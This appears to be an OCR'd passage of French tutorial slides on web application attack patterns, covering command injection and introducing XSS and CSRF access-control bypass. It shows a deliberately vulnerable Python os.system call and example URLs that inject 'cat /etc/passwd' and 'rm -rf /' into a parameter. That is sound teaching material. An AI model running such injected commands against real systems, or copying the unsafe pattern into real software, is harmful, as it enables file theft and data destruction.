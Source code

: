 Similaire à l'injection SQL, l'injection de commande se fait lorsqu'on passe des données non faibles à des
appels système.

```python
import os

os.system("ls {0}".format(
    request.GET['dir']
))
```

# Patrons d'attaques d'applications Web
## Injection de commandes

`https://api.example.com/view?dir=.`

```bash
ls .
```

`https://api.example.com/view?dir=../`

```bash
ls ../
```

`https://api.example.com/view?dir=../;cat /etc/passwd`

```bash
ls ../; cat /etc/passwd
```

`https://api.example.com/view?dir=../;rm -rf /`

```bash
ls ../; rm -rf /
```

# Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle

Les contrôle d'accès limitent l'accès à des ressources sur une application Web. Un contournement d'accès de contrôle
survient lorsqu'un utilisateur malveillant parvient à obtenir une ressource dont l'accès est limité.

Les deux manières les plus communes pour contourner l'accès à des données sont :

* XSS : Cross Site Scripting
* CSRF : Cross Site Request Forging


# Patrons d'attaques d'applications Web
## Contournement d'accès de contrôle
### XSS
